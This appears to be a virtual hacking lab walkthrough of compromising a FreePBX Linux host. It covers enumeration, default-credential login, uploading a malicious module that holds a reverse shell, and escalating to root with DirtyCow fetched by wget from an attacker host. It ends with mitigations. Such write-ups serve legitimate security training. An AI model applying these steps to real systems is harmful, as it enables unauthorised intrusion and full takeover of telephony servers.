# PBX - Virtual Hacking Lab

| Info          | Details                                                           |
| ------------- | ----------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                               |
| Difficulty    | Advanced                                                          |
| Target IP     | 10.11.1.17                                                        |
| OS            | Linux                                                             |
| Vulnerability | Malicious FreePBX Module Upload + DirtyCow (Privilege Escalation) |
| Tools Used    | Nmap, Gobuster, Dirsearch, Enum4linux, Netcat, LinPEAS            |

## Attack Path
1. Nmap scan identified **FreePBX web application** and **Asterisk service**.
2. Web enumeration discovered the **FreePBX admin panel**.
3. Default credentials **root:root** allowed administrative login.
4. Malicious **FreePBX module upload** was used to execute a reverse shell.
5. Initial shell gained on the target system.
6. Enumeration performed using **LinPEAS**.
7. Kernel vulnerability **DirtyCow** exploited.
8. Root privileges obtained.
9. Flag retrieved from `/root/key.txt`.

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir pbx
cd pbx
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```
## Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.17'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: Discovered ssh, http, smb, imap, asterisk service is running

## SMB Enumeration

SMB shares were enumerated.

```bash
smbclient -L //$ip
```



Results: No accessible shares were found.

Further enumeration was conducted using **enum4linux**.

```bash
enum4linux -a $ip
```

Results: Discovered a potential user: **pbx**

## Web Enumeration

Web App page: Accessing the HTTP service revealed a **FreePBX** web interface.



Directory brute forcing was performed.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```



Interesting Directory Listing:

```note
/admin
/robots.txt
/ucp
```

/admin: redirect to `http://10.11.1.17/admin/config.php`



/robots.txt: No useful information.



/ucp: found a user control panel



## Port 5038 

Found another service and version



## Vulnerability Identification

Testing default credentials for the **FreePBX Admin Portal** resulted in successful authentication.

`root::root`



Results: Successfully log in with root::root

## Exploitation – Malicious FreePBX Module Upload

In the website, found a page which i can upload a module. 

`Admin -> Module Admin -> Upload Module`

### Creating a Malicious Module

Create a Malicious module:

```bash
# create a directory
mkdir evilmodule

# Create a module.xml
echo '<module>
  <rawname>evilmodule</rawname>
  <name>Evil Module</name>
  <version>1.0</version>
  <type>setup</type>
  <category>Admin</category>
  <description>Test module</description>
</module>' > module.xml

# Copy monkeyPentest code and save it as install.php
cp /home/kali/reverse.php install.php

# Package the module. 
tar -czf evilmodule.tar.gz evilmodule
```

Next, upload the module into the **Admin Module**



After successfully uploaded, install the module.



`Install -> Process`



```bash
# Open a listener
sudo nc -lnvp 4444
```

Results: Successfully got a reverse shell
# local.txt
```bash
# Upgrade the shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# User identification
whoami
id
```


# Linux Privilege Escalation
```bash
#try weak password 
ls -la /home 
```



```bash
# try weakpassword
su pbx
pbx::pbx
"Failed"
```

Download **LinPEAS** to enumerate privilege escalation vectors.

```bash
# Use automation tools.
wget http://172.16.1.1/linpeas.sh && chmod +x linpeas.sh
./linpeas.sh
```



No clear privilege escalation path was discovered. Thus, use kernel exploitation.

```bash
# DirtyCow

# Download the exploit.
wget http://172.16.1.1/40616.c && chmod +x 40616.c

# Compile
gcc 40616.c -o 40616 -pthread

# Run
./40616

# retrieve flag
whoami 
id
date
cat /root/key.txt
```



The exploit successfully escalated privileges.

# Mitigation

- Disable or change **default credentials** on FreePBX installations.
- Restrict **module upload permissions** to trusted administrators.
- Keep systems patched to prevent **kernel exploits such as DirtyCow**.
- Implement strong authentication and access control for admin portals.
- Monitor system activity for unauthorized module installations.